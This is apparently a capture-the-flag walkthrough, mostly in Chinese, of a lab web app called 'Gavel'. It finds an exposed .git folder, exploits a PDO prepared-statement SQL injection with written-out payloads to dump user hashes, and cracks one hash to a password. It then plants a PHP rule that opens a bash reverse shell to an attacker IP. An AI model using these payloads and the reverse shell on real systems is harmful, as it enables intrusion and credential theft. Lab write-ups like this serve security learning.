


## Gavel
```
[★]$ nmap -sCV 10.129.242.203
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-03 04:12 CDT
Nmap scan report for 10.129.242.203
Host is up (0.011s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1f:de:9d:84:bf:a1:64:be:1f:36:4f:ac:3c:52:15:92 (ECDSA)
|_  256 70:a5:1a:53:df:d1:d0:73:3e:9d:90:ad:c1:aa:b4:19 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://gavel.htb/
Service Info: Host: gavel.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.23 seconds

[★]$ echo '10.129.242.203 gavel.htb' | sudo tee -a /etc/hosts
10.129.242.203 gavel.htb
```

```
[★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://gavel.htb/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://gavel.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
:: Progress: [1/4723] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 11ms]
.git/logs/              [Status: 200, Size: 1128, Words: 77, Lines: 18, Duration: 54ms]
.git/index              [Status: 200, Size: 224718, Words: 313, Lines: 355, Duration: 45ms]
admin.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 21ms]
assets                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 8ms]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 900ms]
.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 906ms]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 1447ms]
index.php               [Status: 200, Size: 13951, Words: 4616, Lines: 223, Duration: 12ms]
.git/config             [Status: 200, Size: 136, Words: 13, Lines: 9, Duration: 1788ms]
.git                    [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 1791ms]
rules                   [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 16ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 8ms]
```
#### 一眼就能看出存在一个名为.git 的隐藏目录。这意味着此应用程序的源代码是使用 Git 进行维护的，而且.git 文件夹被暴露了出来。因此，我们可以使用 gitdumper 来获取该应用程序的源代码。
https://github.com/arthaud/git-dumper
```
[★]$ wget https://raw.githubusercontent.com/arthaud/git-dumper/refs/heads/master/git_dumper.py
[★]$ chmod +x git_dumper.py
[★]$ python3 git_dumper.py http://gavel.htb/.git/ git
[★]$ ls ./git
admin.php  bidding.php  index.php      login.php   register.php
assets     includes     inventory.php  logout.php  rules
```
### Foothold
#### 查看源代码，我们发现应用程序通过 SQL PDO 语句来查询数据库。
https://www.php.net/manual/en/pdo.prepare.php
```
[★]$ cat inventory.php
<SNIP>
$sortItem = $_POST['sort'] ?? $_GET['sort'] ?? 'item_name';
$userId = $_POST['user_id'] ?? $_GET['user_id'] ?? $_SESSION['user']['id'];
$col = "`" . str_replace("`", "", $sortItem) . "`";
$itemMap = [];
$itemMeta = $pdo->prepare("SELECT name, description, image FROM items WHERE name = ?");
try {
    if ($sortItem === 'quantity') {
        $stmt = $pdo->prepare("SELECT item_name, item_image, item_description, quantity FROM inventory WHERE user_id = ? ORDER BY quantity DESC");
        $stmt->execute([$userId]);
    } else {
        $stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
        $stmt->execute([$userId]);
    }
    $results = $stmt->fetchAll(PDO::FETCH_ASSOC);
} catch (Exception $e) {
    $results = [];
}
</SNIP>
```
#### 最近发现，当用户输入未经任何清理就直接传递给 SQL 查询时，这种 PDO 语句的实现方式可能会被利用。
https://slcyber.io/research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/
#### 在这篇文章里找到了payload:
```
http://localhost:8000/?name=x` FROM (SELECT table_name AS `'x` from information_schema.tables)y;%23&col=\?%23%00
```
#### 其基本思路是：默认情况下，PDO 已配置为启用查询模拟功能，即 PDO::ATTR_EMULATE_PREPARES 被设置为 true 。模拟的预处理语句会在将查询发送至数据库之前由 PDO 词法解析器进行解析。它首先会解析 SQL 以识别占位符（？ 或 ：name），然后能够自行替换它们。还可以在括号内包含一个以反斜杠结尾的包含参数字符的标识符中传递一个包含参数字符和空字节（%00）的字符串。
#### 在这种情况下，PDO 解析器会尝试解析用反引号括起来的标识符。空字节处于正常标记范围之外，从而触发了解析器的回退行为。回退操作使得开头的“？”被解释为位置绑定标记（PDO_PARSER_BIND_POS），而非括号内标识符中的字符。这使我们能够提供一个辅助的 SQL 查询来从数据库中提取数据。
#### %00 是 URL 编码后的 空字节（null byte），在很多底层语言（C / PHP早期）中：字符串遇到 \x00 就结束
#### 下面的代码片段就存在这种漏洞。
```
else {
        $stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
        $stmt->execute([$userId]);
    }
```
#### 在这里，我们看到 SQL 查询是通过使用“？”占位符来准备的，然后通过将 $userId 变量传递给预编译语句来进行执行。因此，通过操纵发送到应用程序的用户_id 参数，我们有可能对其进行滥用。
#### 正如我们之前所看到的，这个应用程序允许我们注册和登录。由于我们没有可用于登录的任何凭证，让我们注册一个新用户并使用这些凭证进行登录。
#### 登录后，我们可以访问 bidding.php 页面，这使我们能够对拍卖中的特定物品进行出价。
#### 我们还看到了 inventory.php 这个文件，目前该文件是空的；不过，它确实允许我们按照名称对物品进行排序。
#### 要使用排序功能，我们先前往“Bidding 竞拍”页面，然后对一件商品进行出价，这样它就会出现在我们的库存列表中。
#### 请确保您提交的出价要高于当前的出价。
#### 然后，当该物品的计时结束时，它应被添加到您的库存中。之后，您还应该能够对库存进行排序'Sort by'
#### 让我们在使用 Burpsuite 进行排序时拦截对 inventory.php 的请求。
#### 我们看到请求中包含了“user_id”这一 POST 参数。这就是我们之前所讨论的注入点。
#### Burpsuite拦截操作：首先先切换到‘quantity'，Setting本地流量，切换'name'拦截 -> 直接在Pretty输入 -> Setting恢复网络 -> Forward
```
POST /inventory.php HTTP/1.1
Host: gavel.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://gavel.htb/inventory.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://gavel.htb
DNT: 1
Connection: keep-alive
Cookie: gavel_session=vqe6i0jfp304e8k6mtiigf67e1
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i

user_id=2&sort=item_name
```
#### 因此，我们可以使用以下数据包来进行 SQL 注入攻击，通过滥用 PDO 语句来列出当前数据库中的表。
```
user_id=item_name`%20FROM%20(SELECT%20table_name%20AS%20`%27item_name`%20from%20information_schema.tables)y;--&sort=\?--%00
```

#### 在发送请求后，我们看到它返回了一个表格列表，其中有一个名为“users”的表格。这将包含应用程序中注册用户的详细信息。让我们列出这个表格所包含的记录。让我们从“users”表中提取用户名和密码字段。
```
user_id=item_name`%20FROM%20(SELECT%20CONCAT_WS(0x3a,%20id,%20username,%20password)%20AS%20`%27item_name`%20from%20users)y;--&sort=\?--%00
```

#### 获得
```
1:auctioneer:$2y$10$MNkDHV6g16FjW/lAQRpLiuQXN4MVkdMuILn0pLQlC2So9SgH5RTfS
```
```
[★]$ cat hash
$2y$10$MNkDHV6g16FjW/lAQRpLiuQXN4MVkdMuILn0pLQlC2So9SgH5RTfS
[★]$ cp /usr/share/wordlists/rockyou.txt.gz .
[★]$ gunzip rockyou.txt.gz
[★]$ hashcat -m 3200 hash rockyou.txt
$2y$10$MNkDHV6g16FjW/lAQRpLiuQXN4MVkdMuILn0pLQlC2So9SgH5RTfS:midnight1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
```
#### 登录auctioneer：midnight1
#### 可以看到‘Admin Panel'
#### 管理面板使我们能够编辑每件拍卖物品的规则。为了更好地理解这一点，让我们再次查看一下源代码。
#### 之前，我们看到源代码中有一个名为“rules”的文件夹。深入查看后，我们发现其中有一个名为“default.yaml”的文件。
```
[~/git][★]$ cat rules/default.yaml
rules:
  - rule: "return $current_bid >= $previous_bid * 1.1;"
    message: "Bid at least 10% more than the current price." //信息： “报价至少要比当前价格高出 10%。”

  - rule: "return $current_bid % 5 == 0;"
    message: "Bids must be in multiples of 5. Your account balance must cover the bid amount." //信息： “投标金额必须是 5 的倍数。您的账户余额必须足以支付投标金额。”

  - rule: "return $current_bid >= $previous_bid + 5000;"
    message: "Only bids greater than 5000 + current bid will be considered. Ensure you have sufficient balance before placing such bids." //消息内容：“只有高于 5000 美元且高于当前出价的出价才会被考虑。在进行此类出价前，请确保您有足够的余额。”
```
#### 由此可见，这些规则被用于处理商品的出价逻辑。例如，第一条规则会检查当前商品的出价是否大于或等于之前出价乘以 1.1 的结果。并且
#### 从目前的情况来看，这只是一个 PHP 表达式。通过查看 bid_handler.php 文件，我们可以确认这一点。
```
[~/git/includes][★]$ cat bid_handler.php
<SNIP>
$allowed = false;

try {
    if (function_exists('ruleCheck')) {
        runkit_function_remove('ruleCheck');
    }
    runkit_function_add('ruleCheck', '$current_bid, $previous_bid, $bidder', $rule);
    error_log("Rule: " . $rule);
    $allowed = ruleCheck($current_bid, $previous_bid, $bidder);
} catch (Throwable $e) {
    error_log("Rule error: " . $e->getMessage());
    $allowed = false;
}

if (!$allowed) {
    echo json_encode(['success' => false, 'message' => $rule_message]);
    exit;
}
</SNIP>
```
#### 鉴于这些规则只是简单的 PHP 表达式，它们会被用于处理竞拍逻辑，而且由于我们能够从管理面板为每个项目编辑规则，这就使我们能够添加一个恶意规则，从而实现 PHP 代码执行，进而导致远程代码执行。
#### 首先，让我们进入管理面板并编辑规则，使用以下脚本作为参数，这将为我们提供一个反向 shell。
```
system("bash -c 'bash -i >& /dev/tcp/10.10.15.139/9000 0>&1'"); return true;
```
```
[★]$ nc -lvnp 9000
listening on [any] 9000 ...
```
#### 最后，我们需要进入“竞拍”页面，并为该特定物品进行出价。
```
[★]$ nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.10.15.139] from (UNKNOWN) [10.129.242.203] 44516
bash: cannot set terminal process group (1058): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gavel:/var/www/html/gavel/includes$
```
